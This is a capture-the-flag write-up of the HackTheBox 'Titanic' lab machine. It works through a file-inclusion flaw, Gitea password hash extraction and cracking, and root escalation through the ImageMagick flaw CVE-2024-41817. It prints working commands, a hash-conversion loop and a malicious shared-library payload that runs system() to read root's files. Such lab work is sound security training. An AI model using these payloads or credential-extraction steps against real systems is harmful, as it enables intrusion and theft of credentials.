



# Titanic

**Category:** Machine  
**Difficulty:** Easy  
**Platform:** HackTheBox

## Machine Description

Titanic is a easy-difficulty machine that involves web application vulnerabilities, database exploitation, and privilege escalation through ImageMagick security flaws.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -p- --min-rate 2000 -sV -sC $target
```

### Directory Enumeration

```bash
feroxbuster --redirects --smart --url http://titanic.htb
```

## Exploitation

### Step 1: Local File Inclusion (LFI)

Discovered a Local File Inclusion vulnerability in the download parameter:

```
http://titanic.htb/download?ticket=03c24d12-6b39-470a-90ca-23f63518d154.json
```

**Proof of Concept:**
```bash
curl http://titanic.htb/download?ticket=/home/developer/user.txt
```

**Interesting Files Discovered:**
- `/etc/apache2/apache2.conf`
- `/etc/passwd`
- `/etc/hosts`
- `/home/developer/gitea/data/gitea/conf/app.ini`
- `/home/developer/gitea/data/gitea/gitea.db`

### Step 2: Database Extraction

Retrieved the Gitea database and extracted user credentials:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" |
  while read data; do
    digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)
    salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)
    name=$(echo $data | cut -d'|' -f 3)
    echo "${name}:sha256:50000:${salt}:${digest}"
  done |
  tee gitea.hashes
```

**Explanation:**
- `cut -d'|' -f1` → Extracts the **first field** (`passwd` hash)
- `xxd -r -p` → Converts the **hex-encoded hash** into raw binary
- `base64` → Encodes the **raw binary hash** into Base64

**Extracted Hashes:**
```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

### Step 3: Password Cracking



Cracked the Gitea hashes using Hashcat:

```bash
hashcat gitea.hashes --show --user /opt/SecLists/rockyou.txt
```

### Step 4: Initial Access

SSH'd into the machine using the developer credentials and enumerated writable directories:

```bash
find / -writable -type d 2>/dev/null
```

### Step 5: Privilege Escalation Discovery

Explored the `/opt/` directory and discovered the `/opt/scripts` directory containing `identify_images.sh`:



The script had execution and read permissions for users.

### Step 6: ImageMagick Vulnerability Analysis

**ImageMagick Version Check:**
```bash
/usr/bin/magick --version
```

Discovered **CVE-2024-41817** - Arbitrary Code Execution vulnerability affecting ImageMagick versions ≤ 7.1.1-35.



ImageMagick uses **libxcb.so.1** as a dynamic library and executes commands through it.

### Step 7: Local Vulnerability Testing

**Step 1: Create delegates.xml payload**
```bash
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

ImageMagick reads `delegates.xml` and sees that `decode="XML"` requires the "id" command.

**Step 2: Execute the payload**
```bash
magick ./delegates.xml ./out.png 2>/dev/null
```

ImageMagick attempts to process `delegates.xml` as an image and create `out.png`. Since `delegates.xml` is not an image, ImageMagick encounters an error and tries to process it using the commands specified in `delegates.xml`. The error output is suppressed.

**Step 3: Compile malicious library**
```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

The `__attribute__((constructor))` automatically executes the `init()` function when the library is loaded. The `init()` function contains the `system()` command, which executes the `id` command. After execution, the process is forcibly terminated by calling `exit(0)`.

**Step 4: Test command execution**
```bash
magick /dev/null /dev/null
```

ImageMagick receives no input and output files but loads instructions from the `libxcb.so.1` created in the same directory and executes the `id` command.

### Step 8: Final Exploitation

Created a malicious `libxcb.so.1` with a payload in the `/opt/app/static/assets/images` directory and used the `identify_images.sh` script to trigger ImageMagick execution.

**Final Payload & Execution:**
```bash
# Navigate to the target directory
cd /opt/app/static/assets/images

# Compile the malicious library
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

# Trigger ImageMagick execution via the script
/opt/scripts/identify_images.sh
```

Successfully exploited the CVE to copy `root.txt` into this readable folder.

## Tools Used

- **Nmap** - Port scanning and service enumeration
- **Feroxbuster** - Directory enumeration
- **SQLite3** - Database extraction
- **Hashcat** - Password cracking
- **GCC** - Payload compilation
- **ImageMagick** - Target application

## Summary

[Titanic has been Pwned](https://labs.hackthebox.com/achievement/machine/2245732/648)

The machine was successfully compromised through LFI → Database extraction → Password cracking → Privilege escalation via CVE-2024-41817.
